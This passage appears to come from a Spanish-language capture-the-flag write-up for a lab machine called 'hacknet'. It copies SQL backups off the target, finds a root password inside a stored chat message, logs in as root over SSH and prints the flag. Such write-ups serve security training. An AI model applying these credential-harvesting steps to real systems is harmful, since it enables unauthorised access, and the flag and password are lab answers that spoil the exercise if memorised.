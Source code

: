 Nos traemos los archivos:

```bash
mkdir backups && cd backups
scp sandy@hacknet.htb:/tmp/*.sql .                                                               
backup01.sql.sql                                                                  100%   47KB  46.8KB/s   00:01    
backup02.sql.sql                                                                  100%   47KB  77.3KB/s   00:00    
backup03.sql.sql 
```

15 doritos despues >>>

#### En backaup02 vemos:

```bash
(50,'2024-12-29 20:30:41.806921','Alright. But be careful, okay? Here’s the password: h4ck3rs4re3veRywh3re99. Let me know when you’re done.',1,18,22),
```

```bash
ssh root@hacknet.htb          
root@hacknet.htb's password: 
Linux hacknet 6.1.0-38-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.1.147-1 (2025-08-02) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Sep 26 07:53:03 2025 from 10.10.14.22
root@hacknet:~# ls
root.txt
root@hacknet:~# cat root.txt
bdab0648a28606a99f0f4cd2bcddba62
root@hacknet:~# 
```
